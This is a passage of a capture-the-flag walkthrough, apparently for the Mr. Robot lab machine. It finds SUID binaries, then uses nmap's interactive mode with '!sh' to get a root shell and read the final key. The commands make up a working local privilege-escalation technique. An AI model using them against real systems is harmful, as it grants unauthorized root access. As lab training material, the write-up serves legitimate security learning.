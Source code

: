 ## Privilege Escalation
On to privilege escalation. Let's search for SUID bit files.

```console
robot@linux:~$ find / -perm /4000 2>/dev/null
find / -perm /4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:~$ 
```

[gtfobins](https://gtfobins.github.io/gtfobins/nmap/) says we can get a shell by running nmap in interactive mode and then dropping into a shell. Let's try it.

```console
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh: 0: can't access tty; job control turned off
# whoami
whoami
root
# 
```

### Third Key
It works! Last thing to do is get that third key sitting in the _/root_ directory.

```console
# cd /root
cd /root
# ls -al
ls -al
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat key-3-of-3.txt
cat key-3-of-3.txt
REDACTED
```